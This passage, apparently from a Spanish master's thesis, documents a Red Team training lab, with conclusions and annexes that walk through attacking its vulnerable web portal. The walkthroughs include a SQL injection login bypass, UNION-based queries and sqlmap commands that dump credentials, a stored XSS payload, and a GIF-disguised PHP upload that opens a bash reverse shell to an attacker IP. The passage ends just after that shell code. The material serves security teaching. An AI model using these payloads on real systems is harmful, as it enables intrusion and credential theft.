Esta secuencia demuestra cómo vulnerabilidades inicialmente asociadas a una aplicación web pueden derivar en el compromiso de sistemas internos. El laboratorio permite reproducir de forma controlada una intrusión completa, combinando explotación web, exposición de credenciales, pivoting, movimiento lateral y abuso de servicios de administración remota.


% 7 Conclusiones y trabajo futuro
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Conclusiones y trabajo futuro} % Título de la sección en la cabecera

\section{Conclusiones y trabajo futuro} % Título del capítulo
\label{sec:conclusiones_y_trabajo_futuro}

% ---------------------------------------------------
\subsection{Conclusiones}

El presente Trabajo Fin de Máster ha permitido diseñar, implementar y validar un laboratorio de entrenamiento orientado a ejercicios de Red Team, construido sobre una infraestructura híbrida compuesta por un servidor Linux vulnerable y un entorno corporativo basado en Active Directory. El laboratorio reproduce de forma controlada una cadena completa de compromiso, desde la explotación inicial de una aplicación web hasta el acceso a la infraestructura interna y el compromiso del dominio, permitiendo recorrer las principales fases presentes en un ataque real.

Durante el desarrollo del proyecto se definieron los requisitos funcionales y técnicos del entorno, se diseñó la arquitectura lógica y física de la infraestructura y se implementaron los distintos componentes necesarios para simular un escenario corporativo vulnerable. La aplicación web incorpora múltiples vulnerabilidades representativas del Top 10 de OWASP, mientras que la infraestructura Windows reproduce servicios y configuraciones habituales en entornos empresariales, permitiendo practicar técnicas de post-explotación, movimiento lateral y enumeración de Active Directory.

La validación realizada demuestra que todos los escenarios previstos pueden reproducirse de forma consistente siguiendo una secuencia lógica de ataque. Los resultados obtenidos durante las pruebas confirman que cada una de las vulnerabilidades implementadas cumple el propósito para el que fue diseñada y que la cadena de compromiso puede ejecutarse íntegramente sin necesidad de modificar la configuración del laboratorio.

Uno de los aspectos más relevantes del trabajo ha sido la optimización de los recursos hardware necesarios para su ejecución. A partir de la configuración inicialmente recomendada por VMware Workstation, se realizaron diversas pruebas experimentales que permitieron reducir significativamente la memoria RAM asignada, el tamaño de los discos virtuales y el espacio real ocupado por la infraestructura, manteniendo la estabilidad del laboratorio y la reproducibilidad de los escenarios ofensivos. Esta optimización facilita el despliegue del entorno sobre equipos domésticos o académicos y mejora su accesibilidad para estudiantes e investigadores.

Con el objetivo de favorecer la reutilización del laboratorio, también se ha desarrollado un conjunto de scripts de automatización y documentación técnica que permiten desplegar la infraestructura desde cero o importar directamente las máquinas virtuales previamente configuradas. Asimismo, se incluyen anexos con el procedimiento detallado de instalación, explotación e implementación de los distintos componentes, facilitando la reproducción de los escenarios por parte de terceros.

En conjunto, el laboratorio desarrollado constituye una plataforma reproducible para la enseñanza y el entrenamiento en ciberseguridad ofensiva. Su diseño modular permite comprender cómo se relacionan las diferentes fases de un ataque real, integrando conocimientos de seguridad web, sistemas Linux, Active Directory, movimiento lateral y pivoting dentro de un único entorno práctico.

En definitiva, el trabajo desarrollado demuestra que es posible construir un laboratorio de Red Team realista, reproducible y accesible utilizando tecnologías ampliamente disponibles y recursos hardware moderados. La documentación generada, los procedimientos de despliegue y los escenarios de explotación implementados permiten que cualquier estudiante o investigador pueda reproducir el entorno y utilizarlo como plataforma de aprendizaje, experimentación o ampliación de nuevos escenarios, contribuyendo así a la formación práctica en ciberseguridad ofensiva.

\subsection{Líneas futuras}

Aunque el laboratorio desarrollado cumple los objetivos planteados inicialmente, existen diversas líneas de trabajo que permitirían ampliar sus capacidades y aumentar el realismo de los escenarios reproducidos.

Una posible mejora consiste en incorporar mecanismos de detección y monitorización mediante soluciones SIEM y EDR, permitiendo utilizar el laboratorio no solo para ejercicios de Red Team, sino también para actividades de Blue Team y Purple Team. La integración de herramientas como Wazuh, Microsoft Defender for Endpoint o Sysmon facilitaría el análisis de la actividad generada durante los ataques y la evaluación de mecanismos de detección.

Otra línea de evolución consiste en ampliar la infraestructura Active Directory mediante la incorporación de nuevos equipos, servidores adicionales, relaciones de confianza entre dominios y configuraciones más complejas de políticas de grupo. Esto permitiría reproducir escenarios corporativos de mayor tamaño y entrenar técnicas avanzadas de movimiento lateral, persistencia y escalada de privilegios.

Desde el punto de vista de la aplicación web, el laboratorio podría enriquecerse incorporando nuevas vulnerabilidades representativas de versiones recientes del OWASP Top 10, así como mecanismos de autenticación modernos, APIs REST y arquitecturas basadas en microservicios, permitiendo ampliar el catálogo de técnicas de explotación disponibles.

Asimismo, el sistema de despliegue podría evolucionar hacia una infraestructura completamente automatizada mediante herramientas de Infraestructura como Código, como Terraform o Ansible, facilitando la creación del laboratorio sobre distintos hipervisores o incluso sobre plataformas cloud.

Finalmente, una línea especialmente interesante consiste en desarrollar un sistema de evaluación automática capaz de registrar el progreso de los alumnos durante la resolución de los distintos escenarios. Este sistema permitiría generar métricas objetivas sobre el desarrollo de las prácticas y facilitaría la utilización del laboratorio como plataforma docente dentro de asignaturas relacionadas con la ciberseguridad ofensiva.


% USO RSPONSABLE IA
% =========================================================
\clearpage
\phantomsection
\addcontentsline{toc}{section}{Uso responsable de la Inteligencia Artificial}


\clearpage
\phantomsection
\addcontentsline{toc}{section}{Uso responsable de la Inteligencia Artificial}

\nombreCapituloCabecera{RH}{Uso responsable de la Inteligencia Artificial}

\section*{Uso responsable de la Inteligencia Artificial}
\label{sec:uso_ia}

Durante el desarrollo del presente Trabajo Fin de Máster se ha realizado un uso responsable y transparente de herramientas de inteligencia artificial generativa como apoyo al proceso de investigación, implementación, redacción y mejora del código, manteniendo en todo momento la autoría y la responsabilidad sobre el contenido final del documento.

Estas herramientas no se han utilizado para sustituir el análisis técnico, el diseño del laboratorio, la implementación de los escenarios de ataque ni la validación práctica del entorno. Todas las decisiones relacionadas con la arquitectura, la selección de vulnerabilidades, la configuración de la infraestructura, el desarrollo del código, la comprobación de resultados y la elaboración de conclusiones han sido realizadas por el autor.

Asimismo, las respuestas obtenidas mediante estas herramientas fueron revisadas, contrastadas y adaptadas antes de su incorporación al documento, verificando su corrección técnica y su adecuación a los objetivos del trabajo.

En consecuencia, la utilización de herramientas de inteligencia artificial ha constituido un recurso de apoyo al proceso de desarrollo, sin reemplazar la contribución intelectual, el trabajo experimental ni la responsabilidad académica del autor sobre los resultados presentados.


% BIBLIOGRAFÍA
% =========================================================
\cleartooddpage
\clearpage
\vspace*{-1cm}

\phantomsection
\addcontentsline{toc}{section}{Bibliografía}

\nombreCapituloCabecera{RH}{Bibliografía}
\printbibliography[title={Bibliografía}]

% =========================================================
% ANEXOS
% =========================================================


% Anexo i - Manual de despliegue
\cleartooddpage
\vspace*{-1cm}

\appendix
\phantomsection
\addcontentsline{toc}{section}{Anexo i - Manual de despliegue}

\nombreCapituloCabecera{RH}{Anexo i - Manual de despliegue} % Título de la sección en la cabecera

\section*{Anexo i - Manual de despliegue} % Título del anexo
\label{anexo:manual_de_despliegue}

% ---------------------------------------------------

% Contenido del anexo



% Anexo ii - Reconocimiento y login
\cleartooddpage
\crearanexo{Reconocimiento inicial y explotación del login}{anexo:reconocimiento_login}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es identificar la máquina expuesta del laboratorio, localizar el servicio web vulnerable y obtener acceso al panel interno del Portal PYME mediante el análisis del mecanismo de autenticación.

\subsubsection*{Descubrimiento de la máquina objetivo}

Antes de analizar la aplicación web es necesario localizar la dirección IP del servidor expuesto. Desde la máquina atacante se realiza un escaneo de descubrimiento sobre el segmento de red correspondiente.

\begin{bashbox}
sudo nmap -sn 192.168.129.0/24
\end{bashbox}

Una vez identificada la dirección IP del servidor Ubuntu, se realiza un escaneo de puertos para determinar los servicios publicados.

\begin{bashbox}
nmap -sV -sC -p- <IP_SERVIDOR>
\end{bashbox}

El resultado esperado muestra un servicio HTTP publicado en el puerto \texttt{8080}:

\begin{configbox}
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd
\end{configbox}

El portal puede consultarse desde el navegador mediante la siguiente URL:

\begin{configbox}
http://<IP_SERVIDOR>:8080/
\end{configbox}

\subsubsection*{Enumeración de directorios}

Tras confirmar la existencia del servicio web, se enumeran rutas y recursos internos de la aplicación.

\begin{bashbox}
ffuf -u http://<IP_SERVIDOR>:8080/FUZZ \
-w /usr/share/wordlists/dirb/common.txt \
-e .php,.txt,.html,.sql,.css,.jpg,.png \
-recursion \
-recursion-depth 2 \
-fc 403 \
-c \
-o resultado.json \
-of json
\end{bashbox}

Entre los recursos de mayor interés se encuentran:

\begin{configbox}
/login.php
/backend/panel.php
/config/db.php
/ticket.php
/uploads/
\end{configbox}

La presencia del directorio \texttt{/uploads/} es especialmente relevante, ya que más adelante permitirá validar una vulnerabilidad de carga de archivos.

\subsubsection*{Análisis del login}

El formulario de autenticación se encuentra en:

\begin{configbox}
http://<IP_SERVIDOR>:8080/login.php
\end{configbox}

La petición enviada por el formulario contiene los campos \texttt{username} y \texttt{password}:

\begin{configbox}
POST /login.php HTTP/1.1

username=admin&password=test
\end{configbox}

Las pruebas iniciales no muestran diferencias claras entre usuarios válidos e inválidos: el código HTTP, el tamaño de respuesta y las redirecciones permanecen constantes. No obstante, el análisis temporal de las respuestas permite identificar un comportamiento anómalo asociado al usuario \texttt{system\_admin}, lo que indica que dicho usuario existe en la base de datos.

\subsubsection*{Bypass del filtro del lado cliente}

El formulario implementa un filtro JavaScript que elimina determinados caracteres, como la comilla simple o el carácter \texttt{\#}. Sin embargo, esta validación se ejecuta únicamente en el navegador y puede evitarse enviando la petición directamente al servidor.

El payload utilizado para explotar el login es:

\begin{configbox}
system_admin'-- -
\end{configbox}

La comilla simple cierra la cadena del usuario en la consulta SQL y la secuencia \texttt{-- -} comenta el resto de la consulta, anulando la comprobación de contraseña.

La petición puede enviarse directamente mediante \texttt{curl}:

\begin{bashbox}
curl -i -X POST \
http://<IP_SERVIDOR>:8080/login.php \
-d "username=system_admin'-- -&password=test"
\end{bashbox}

También puede reproducirse desde un proxy de interceptación como Burp Suite, modificando manualmente el parámetro \texttt{username} antes de reenviar la petición.

Tras este bypass, el servidor responde con un código HTTP 302 y redirige al panel interno del portal:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/portal_interno.png}

    \vspace{0.2cm}
    \captionazul{Acceso al panel interno del Portal PYME tras explotar el formulario de autenticación.}
    \label{fig:anexo_portal_interno}
\end{figure}


% Anexo iii - Tickets: SQLi, XSS e IDOR
\cleartooddpage
\crearanexo{Explotación del módulo de tickets}{anexo:tickets_sqli_xss_idor}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es analizar el módulo de tickets del Portal PYME y validar tres vulnerabilidades diferentes: SQL Injection, Cross-Site Scripting almacenado e IDOR. La vulnerabilidad principal para la cadena de ataque es la SQL Injection, ya que permite extraer credenciales de la base de datos.

\subsubsection*{Punto de partida}

El endpoint utilizado para consultar el estado de una incidencia recibe un código de ticket mediante el parámetro \texttt{codigo}:

\begin{configbox}
http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001
\end{configbox}

Se parte de un ticket válido generado desde la propia aplicación, por ejemplo:

\begin{configbox}
TCK-2026-001
\end{configbox}

\subsubsection*{Confirmación de SQL Injection}

La primera comprobación consiste en introducir una comilla simple al final del parámetro:

\begin{configbox}
TCK-2026-001'
\end{configbox}

Si la aplicación devuelve un error o un comportamiento diferente, se obtiene un primer indicio de inyección SQL. Posteriormente se valida la vulnerabilidad con una condición siempre verdadera:

\begin{configbox}
' OR '1'='1'#
\end{configbox}

Cuando la aplicación muestra más resultados de los esperados, se confirma que el parámetro está siendo incorporado a una consulta SQL de forma insegura.

\subsubsection*{Identificación del número de columnas}

Para preparar una explotación mediante \texttt{UNION SELECT}, se determina el número de columnas de la consulta original mediante \texttt{ORDER BY}:

\begin{configbox}
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
' ORDER BY 4#
' ORDER BY 5#
' ORDER BY 6#
' ORDER BY 7#
\end{configbox}

El fallo al llegar a \texttt{ORDER BY 7} indica que la consulta original contiene seis columnas.

\subsubsection*{Extracción de información de la base de datos}

Una vez conocido el número de columnas, se prepara una consulta \texttt{UNION SELECT} de prueba:

\begin{configbox}
' UNION SELECT 'A','B','C','D','E','F'#
\end{configbox}

A continuación se obtiene el nombre de la base de datos activa:

\begin{configbox}
' UNION SELECT database(),'B','C','D','E','F'#
\end{configbox}

Para listar las tablas existentes se consulta \texttt{information\_schema.tables}:

\begin{configbox}
' UNION SELECT group_concat(table_name),'B','C','D','E','F'
FROM information_schema.tables
WHERE table_schema = database()#
\end{configbox}

Después se enumeran las columnas de la tabla \texttt{empleados}:

\begin{configbox}
' UNION SELECT group_concat(column_name separator ' | '),'B','C','D','E','F'
FROM information_schema.columns
WHERE table_name = 'empleados'#
\end{configbox}

Finalmente, se extraen usuarios y contraseñas:

\begin{configbox}
' UNION SELECT group_concat(username,':',password separator ' | '),'B','C','D','E','F'
FROM empleados#
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/leak-databas-tickets.png}

    \vspace{0.2cm}
    \captionazul{Extracción de credenciales desde la base de datos mediante SQL Injection en el módulo de tickets.}
    \label{fig:anexo_leak_database_tickets}
\end{figure}

Entre las credenciales obtenidas destaca la cuenta administrativa del portal:

\begin{configbox}
system_admin:admin123
\end{configbox}

\subsubsection*{Validación con SQLMap}

Además de la explotación manual, la vulnerabilidad puede validarse mediante SQLMap:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
--batch \
--dbs
\end{bashbox}

Enumeración de tablas:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
--tables \
--batch
\end{bashbox}

Extracción de credenciales:

\begin{bashbox}
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
-T empleados \
-C username,password \
--dump \
--batch
\end{bashbox}

\subsubsection*{Validación de XSS almacenado}

La funcionalidad de creación de tickets permite introducir contenido controlado por el usuario. Si este contenido se almacena y posteriormente se renderiza sin codificación adecuada, se produce un XSS almacenado.

Payload de prueba:

\begin{configbox}
<img src=x onerror=alert(1)>
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/xss-tickets.png}

    \vspace{0.2cm}
    \captionazul{Inserción de contenido controlado por el usuario en el módulo de tickets, representando un caso de XSS almacenado.}
    \label{fig:anexo_xss_tickets}
\end{figure}

\subsubsection*{Validación de IDOR}

Los identificadores de ticket siguen un formato predecible:

\begin{configbox}
TCK-2026-001
TCK-2026-002
TCK-2026-003
\end{configbox}

Si la aplicación únicamente comprueba que el ticket existe, pero no verifica que el usuario tenga permisos para consultarlo, se produce una vulnerabilidad de tipo IDOR. La prueba consiste en modificar manualmente el parámetro \texttt{codigo}:

\begin{configbox}
/estado_ticket.php?codigo=TCK-2026-002
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/IDOR-tickets.png}

    \vspace{0.2cm}
    \captionazul{Consulta de tickets mediante identificadores predecibles, representando un caso de IDOR.}
    \label{fig:anexo_idor_tickets}
\end{figure}



% Anexo iv - File Upload y RCE
\cleartooddpage
\crearanexo{Carga de archivos y ejecución remota de comandos}{anexo:file_upload_rce}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es aprovechar la funcionalidad de subida de imagen de perfil del Portal PYME para conseguir ejecución remota de comandos sobre el servidor web y obtener una reverse shell con el usuario del servicio web.

\subsubsection*{Contexto}

Tras acceder al panel interno del portal, se identifica una funcionalidad disponible en la sección de perfil que permite subir una imagen de usuario. Aparentemente, la aplicación intenta restringir la carga de archivos ejecutables, bloqueando ficheros con extensión \texttt{.php}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/portal_interno.png}

    \vspace{0.2cm}
    \captionazul{Panel interno del Portal PYME desde el que se accede a la funcionalidad de subida de archivos.}
    \label{fig:anexo_upload_portal_interno}
\end{figure}

\subsubsection*{Análisis del filtrado}

Las pruebas iniciales muestran que un fichero PHP directo, como \texttt{shell.php}, es rechazado por la aplicación. Sin embargo, el filtrado no impide que el archivo contenga una cabecera propia de imagen y conserve una extensión ejecutable adicional.

La debilidad se basa en que la aplicación valida parcialmente el tipo aparente del archivo, pero no evita que el servidor web interprete el contenido como PHP una vez almacenado en el directorio público \texttt{/uploads/}.

\subsubsection*{Creación del payload}

Se prepara un archivo híbrido denominado:

\begin{configbox}
shell.gif.php
\end{configbox}

El fichero comienza con la cabecera \texttt{GIF89a}, propia de archivos GIF, seguida de código PHP encargado de iniciar una conexión inversa hacia la máquina atacante.

\begin{configbox}
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'");
?>
